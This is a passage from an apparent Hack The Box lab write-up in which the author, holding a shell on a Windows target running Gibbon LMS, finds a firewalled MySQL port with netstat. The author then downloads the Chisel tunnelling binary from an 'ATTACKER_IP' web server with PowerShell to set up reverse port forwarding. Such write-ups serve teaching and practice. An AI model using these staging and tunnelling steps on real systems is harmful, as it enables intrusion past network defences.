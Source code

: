 ```

/**
 * Sets a globally unique id, to allow multiple installs on a single server.
 */
$guid = '7y59n5xz-uym-ei9p-7mmq-83vifmtyey2';

<SNIP>
```

`netstat` shows that port `3306/tcp` is also open, which the initial scan didn't show.  The MySQL port is most likely blocked by the firewall.

```
C:\xampp\htdocs\Gibbon-LMS>netstat -ano |findstr LISTEN
netstat -ano |findstr LISTEN

<SNIP>

  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       3120

<SNIP>
```

### 🧪 Exploitation

Chisel, which is part of the `chisel-common-binaries` package on Kali can be used for reverse port forwarding as a limited rights users.

The `chisel` executable is shared using a Python web server.

```
fcoomans@kali:~/htb/thefrizz$ dpkg -S /usr/share/chisel-common-binaries/chisel_1.10.1_windows_amd64.exe
chisel-common-binaries: /usr/share/chisel-common-binaries/chisel_1.10.1_windows_amd64.exe

fcoomans@kali:~/htb/thefrizz$ python -m http.server -d /usr/share/chisel-common-binaries
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And downloaded on the target.

```
C:\xampp\htdocs\Gibbon-LMS>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\xampp\htdocs\Gibbon-LMS> cd $env:temp
cd $env:temp
PS C:\Users\W522A~1.WEB\AppData\Local\Temp> iwr http://ATTACKER_IP:8000/chisel_1.10.1_windows_amd64.exe -outfile chisel.exe
iwr http://ATTACKER_IP:8000/chisel_1.10.1_windows_amd64.exe -outfile chisel.exe
```
